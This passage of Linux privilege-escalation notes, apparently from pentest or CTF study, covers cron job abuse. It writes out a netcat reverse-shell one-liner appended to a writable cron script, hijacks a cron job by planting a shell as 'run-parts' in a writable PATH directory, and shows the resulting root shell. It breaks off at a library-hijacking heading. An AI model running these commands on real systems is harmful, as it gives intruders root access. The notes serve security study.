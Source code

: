 Can change file check.sh with user permission.

``` bash
echo "rm /tmp/f; mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f" >> check.sh
```

### PATH Search Order Crontab

``` bash
$ cat /etc/crontab
<snip>
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/5 *   * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

==> `PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

``` bash
chloe@roquefort:~$ ls -ld /usr/local/bin
drwxrwsrwx 2 root staff 4096 Apr 24  2020 /usr/local/bin
```

``` bash
cp /tmp/shell /usr/local/bin/run-parts
```

[https://crontab.guru](https://crontab.guru): `*/5 : "At every 5th minute."`

``` bash
$ sudo nc -nvlp 22
listening on [any] 22 ...
connect to [ip] from (UNKNOWN) [ip] 37228
id
uid=0(root) gid=0(root) groups=0(root)
```

## Module Import Hijacking

### Dynamic Library Hijacking

``` bash
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""
<snip>
  *  *  *  *  * root       /usr/bin/log-sweeper
```
